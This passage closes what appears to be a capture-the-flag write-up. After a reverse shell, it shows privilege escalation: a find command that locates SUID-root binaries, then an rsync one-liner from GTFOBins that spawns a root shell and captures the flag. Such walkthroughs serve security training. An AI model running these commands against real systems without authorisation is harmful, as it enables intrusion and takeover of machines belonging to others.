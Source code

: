 ![https://i.ibb.co/GW4rP32/Shell-Generated.png](https://i.ibb.co/GW4rP32/Shell-Generated.png)

## Privilege Escalation

After successfully getting reverse shell, we can go for the privilege escalation.

```jsx
find / -user root -perm -4000 -exec ls -ldb {} \; 2>/dev/null
```

![https://i.ibb.co/k11r9W8/findsuids.png](https://i.ibb.co/k11r9W8/findsuids.png)

It seems `rsync` command has SUID permission, so lets search this in **[GTFOBins](https://gtfobins.github.io/)**. This command is enough to get elevated shell.

```jsx
rsync -e 'sh -p -c "sh -p 0<&2 1>&2"' 127.0.0.1:/dev/null
```

![https://i.ibb.co/crXc6Mt/root-flag.png](https://i.ibb.co/crXc6Mt/root-flag.png)

Thank you for Reading!!